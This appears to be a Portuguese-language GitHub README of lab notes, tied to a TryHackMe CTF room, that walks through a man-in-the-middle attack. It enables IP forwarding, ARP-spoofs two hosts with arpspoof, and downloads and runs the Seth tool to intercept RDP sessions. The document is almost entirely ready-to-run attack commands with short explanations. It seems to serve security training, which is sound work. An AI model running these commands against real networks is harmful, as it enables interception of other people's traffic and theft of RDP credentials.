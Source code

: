 # Simulação de Ataque Man-in-the-Middle (MITM)

## 1. Habilitar o Encaminhamento de Pacotes (IP Forwarding)

Este comando ativa o encaminhamento de pacotes IPv4 no sistema, permitindo que a máquina atacante atue como um roteador e retransmita o tráfego entre as duas vítimas.

```
echo 1 > /proc/sys/net/ipv4/ip_forward
````

-----

## 2\. Iniciar o Ataque de ARP Spoofing (PC1 -\> PC2)

Este comando envenena o cache ARP do PC1, fazendo-o acreditar que a máquina atacante é o PC2. O tráfego destinado ao PC2 será, então, redirecionado para o atacante.

```
arpspoof -i eth0 -t [IP_DO_PC1] -r [IP_DO_PC2]
```

-----

## 3\. Iniciar o Ataque de ARP Spoofing (PC2 -\> PC1)

Este comando envenena o cache ARP do PC2, fazendo-o acreditar que a máquina atacante é o PC1. O tráfego destinado ao PC1 será, então, redirecionado para o atacante, completando a inserção no meio da comunicação.

```
arpspoof -i eth0 -t [IP_DO_PC2] -r [IP_DO_PC1]
```

-----

### Ataque Man-in-the-Middle (MITM) em Conexão RDP

Este guia demonstra como realizar um ataque Man-in-the-Middle em uma conexão RDP, utilizando as ferramentas **dsniff** e **Seth**.

#### 1\. Instalação do dsniff

O **dsniff** é uma suíte de ferramentas para interceptação e análise de pacotes de rede. Ele será utilizado para auxiliar no ataque.

```bash
apt install dsniff
```

#### 2\. Download e Configuração do Seth

O **Seth** é uma ferramenta específica para realizar ataques MITM em conexões RDP.

  - **Download e descompactação:**



```bash
wget https://github.com/SySS-Research/Seth/archive/refs/heads/master.zip
unzip master.zip
```

  - **Acesso ao diretório:**



```bash
cd Seth-master
```

#### 3\. Execução do Ataque

Execute o script principal do **Seth** para iniciar o ataque. Substitua os parâmetros pelos IPs correspondentes ao seu ambiente.

```bash
./seth.sh ens33 IP-Atacante IP-Alvo IP-Servidor
```

  - **Parâmetros:**
      - `ens33`: Interface de rede a ser utilizada.
      - `IP-Atacante`: Endereço IP da máquina do atacante.
      - `IP-Alvo`: Endereço IP da máquina da vítima.
      - `IP-Servidor`: Endereço IP do servidor RDP.

-----

**CTF (Capture The Flag)**

Este ataque foi explorado na sala **Layer 2** da plataforma **TryHackMe**:

  - [https://tryhackme.com/room/layer2](https://tryhackme.com/room/layer2)

-----
